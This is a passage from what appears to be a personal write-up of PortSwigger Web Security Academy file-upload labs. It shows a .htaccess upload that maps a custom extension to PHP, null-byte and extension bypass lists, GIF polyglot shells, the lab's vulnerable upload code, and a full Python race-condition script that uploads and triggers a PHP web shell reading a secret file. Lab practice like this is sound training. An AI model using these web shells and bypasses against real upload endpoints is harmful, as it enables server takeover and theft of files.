------WebKitFormBoundaryDM4TB2X7iyGMaA2B
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

------WebKitFormBoundaryDM4TB2X7iyGMaA2B
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDM4TB2X7iyGMaA2B
Content-Disposition: form-data; name="csrf"

Jjk83eNf6hSjXTWkM7e0IC7wTd8TtuGd
------WebKitFormBoundaryDM4TB2X7iyGMaA2B--
```


- Now tried to upload `shell.php` by changing `.php` to `l33t` and it successfully take it,


- And when we accessed it, it rendered perfectly,

```
https://0adb00c904b6a72282c9515400e900f3.web-security-academy.net/files/avatars/shell.l33t
```


## Lab 5: Web shell upload via file extension


- We have to login using using given creds to avail upload functionality,


- In normal uploading `shell.php` it fails and throws `403 forbidden` error,


- First thing that comes in mind is that to try all `php` extensions with and without little obfuscation,
- So for that i used this wordlist, [PHP Extensions List by PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst).
- Setting up intruder and start the attack...

```PHP
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.inc
```




- This 4 succeed and got `200 OK` and file successfully uploaded,
- What does this means,
	- This is called `Null Byte Injection` in which we put null byte after `.php` extension and then `.jpg` so it basically get separated and server is checking that file must end with `.jpg` which fulfilled and we pass the check.    

```php
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```


- When i tried to access the `shell.php` it executed and got the `secret` (Note: PHP shell is same as used previous) and by submitting this we solve the lab.




## Lab 6: Remote code execution via polyglot web shell upload


- We have to log in to your own account using the following credentials: `wiener:peter` to avail upload functionality,


- Again tried vanilla upload technique of `shell.php` but failed, 
- So now we have to try something called `# polyglot web shell` which means a **single file that is valid in multiple formats at the same time**.
- `GIF89a;` is nothing but GIF file signature or magic bytes.
- ==Server checks files magic bytes and if it match with that GIF then allow it.==


- I tried and it works and file uploaded successfully, and submit the `secret` and solve the lab. 




## Lab 7: Web shell upload via race condition


- We have to log in to my own account using the following credentials: `wiener:peter` to avail upload functionality.



- So in this lab, we to exploit race condition to upload web shell and this is the vulnerable code given in hint,
- This is code tells that our uploaded file is first stored to `/avatars` and then `checkViruses()` and `checkFileType` function invokes and if it fails then file will be delete. 

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

- Here is the problem with this code,

```
move_uploaded_file()  → file exists at: avatars/shell.php  ✔
checkViruses()        → takes time (100–500ms)              ⏳
checkFileType()       → takes time (small delay)            ⏳
unlink()              → deletes file if fail                ❌
```

- So for this task we have to make script which will try instantly after uploading file before it deletes it,

```py
import threading
import requests

TARGET = "https://0a1b00b70350262080455d4c00c40005.web-security-academy.net"
UPLOAD_URL = TARGET + "/my-account/avatar"
SHELL_URL  = TARGET + "/files/avatars/shell.php"

COOKIE = {
    "session": "qmCJXS6lmtLH2X5xl8B8XwhE6gwuF2tI"
}

# PHP payload used in your request
php_payload = b"<?php echo file_get_contents('/home/carlos/secret'); ?>"

# Full multipart-body EXACTLY as your req
def build_multipart():
    return {
        "avatar": ("shell.php", php_payload, "application/octet-stream"),
        "user": (None, "wiener"),
        "csrf": (None, "MZmaj6ucabT9hqJa3OTq8Pahmw1eImlN")
    }

# Normal headers (requests auto-generates multipart boundaries)
headers = {
    "User-Agent": "Mozilla/5.0",
    "Referer": TARGET + "/my-account?id=wiener",
}

def upload_thread():
    while True:
        try:
            requests.post(
                UPLOAD_URL,
                files=build_multipart(),
                cookies=COOKIE,
                headers=headers,
                timeout=2,
            )
        except:
            pass

def trigger_thread():
    while True:
        try:
            r = requests.get(SHELL_URL, cookies=COOKIE, timeout=2)
            if "secret" in r.text or len(r.text.strip()) > 0:
                print("\n[+] RACE WON! File contents:")
                print(r.text)
                exit(0)
        except:
            pass

# Spawn race threads
for _ in range(20):       # increase to 50 if lab is slow
    threading.Thread(target=upload_thread, daemon=True).start()
    threading.Thread(target=trigger_thread, daemon=True).start()

# Keep main thread alive
while True:
    pass
```

- And we successfully win the race condition and we got the `secret` and after submitting it we solve the lab



